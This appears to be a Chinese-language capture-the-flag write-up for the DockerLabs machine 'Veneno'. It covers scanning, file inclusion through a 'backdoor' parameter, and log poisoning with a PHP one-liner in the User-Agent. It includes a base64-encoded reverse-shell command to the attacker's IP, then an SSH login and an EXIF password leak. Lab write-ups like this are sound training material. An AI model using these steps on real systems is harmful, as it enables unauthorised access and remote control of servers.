










## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/Veveno  
❯ nmap 172.17.0.2 -sV  -A
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-22 16:04 CST
Nmap scan report for 172.17.0.2
Host is up (0.000089s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 89:9c:7b:99:95:b6:e8:03:5a:6a:d4:69:69:4a:8d:35 (ECDSA)
|_  256 ec:ec:90:44:4e:66:64:22:f6:8b:cd:29:d2:b5:60:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.09 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.95 seconds
```

## Gobuster

```
[root@kali] /home/kali/Veveno  
❯ gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html                                 ⏎
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/problems.php         (Status: 200) [Size: 10671]
/index.html           (Status: 200) [Size: 10671]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 661680 / 661683 (100.00%)
```

可以看到存在一个**problems.php**，但是回显和**index.html**是一样的，猜测需要构造一个参数

## FFUF



可以看到存在一个**backdoor**的参数

```
[root@kali] /home/kali/Veveno  
❯ curl --path-as-is 'http://172.17.0.2/problems.php?backdoor=/etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
carlos:x:1001:1001:,,,:/home/carlos:/bin/bash
```

在**/etc/passwd**中找到一个**carlos**用户，但是读取不到**ssh**密钥

## LFI

在遍历文件的时候发现可以读取日志文件



在**User-Agent**部分插入一句话木马



再包含日志文件，可以看到一句话木马被插入成功



反弹**shell**

```
cmd=system('echo "YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTcyLjE3LjAuMS8xMDAgMD4mMQ=="|base64 -d|bash');
```

在**/var/www/html**目录下得到一个留言

```
www-data@fbbc838fa7a8:/var/www/html$ cat anti*
cat anti*
Es imposible que me acuerde de la pass es inhackeable pero se que la tenpo en el mismo fichero desde fa 24 anys. trobala buscala 

soy el unico user del sistema. 

我不可能记得通行证是无法破解的，但我知道我把它放在同一个文件里已经 24 年了。
```

查找**24**年前的文件

```
find / -type f -mtime +8760
```



得到密码是：**pinguinochocolatero**

成功登录**ssh**



## Root

发现一个隐藏的图片，将其下载出来





```
[root@kali] /home/kali/Veveno  
❯ scp  carlos@172.17.0.2:/home/carlos/carpeta55/.toor.jpg ./ 
```

查看图片的**exif**信息



随后使用这个密码提升为**root**



## Summary

`User`：经典的**CTF**日志包含，写入一句话马然后反弹**shell**，根据留言找到一个密码文件，从**www-data**提升到**user**。我看其他的解法大概也是写入一句话木马，但是不是利用的**User-Agent**，这是在CTF中比较常见的利用点。

- [](https://byte-mind.net/dockerlabs-machines-veneno-writeup/)[Dockerlabs machines - Veneno Writeup - Byte Mind](https://byte-mind.net/dockerlabs-machines-veneno-writeup/)

- [Veneno , DockerLabs | CTF's Linux Apuntes](https://firstatack.github.io/posts/veneno/)

`Root`：图片的**EXIF**信息泄露，得到**root**的密码
